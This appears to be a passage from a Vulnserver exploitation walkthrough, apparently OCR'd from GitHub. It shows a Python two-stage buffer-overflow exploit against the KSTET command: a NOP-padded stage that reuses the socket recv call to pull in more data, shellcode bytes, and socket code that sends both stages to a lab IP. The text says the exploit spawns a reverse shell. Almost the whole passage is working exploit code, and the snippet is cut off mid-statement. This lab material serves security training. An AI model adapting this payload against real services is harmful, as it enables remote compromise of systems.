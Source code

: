 ```c
buf += b"\xaf\x38\x38\xa4\xcd\xd8\xc7\x7f\x56\xe8\x8d\xdd\xff"
buf += b"\x61\x48\xb4\xbd\xef\x6b\x63\x81\x09\xe8\x81\x7a\xee"
buf += b"\xf0\xe0\x7f\xaa\xb6\x19\xf2\xa3\x52\x1d\xa1\xc4\x76"

payload=b""
payload+=b"\x90"*10
payload+=file_descriptor
payload+=stack_adjustment
payload+=flag_value
payload+=buffer_size
payload+=buffer_pointer
payload+=get_file_descriptor
payload+=socket_recv
payload+=b"\x90"*(70-len(payload))
payload+=b"\xaf\x11\x50\x62"
payload+=b"\x90"
payload+=b"\x83\xc0\x10"
payload+=b"\xff\xe0"

stage1=b""
stage1+=payload

stage2=b""
stage2+=buf
stage2+=b"\x90"*(1024-len(buf))

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))

print("[+] Sending STAGE 1 payload")
s.send((b"KSTET "+stage1))
sleep(5)

print("[+] Sending STAGE 2 payload")
s.send(stage2)

print("[+] Exploit complete.. Shell spawned")
s.close()
sys.exit(
```

After running this exploit on ```KSTET``` command, we will spawn a reverse shell

<video width="100%" preload="auto" muted controls>
    <source src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/kstet-2-exploit.mp4" type="video/mp4"/>
</video>

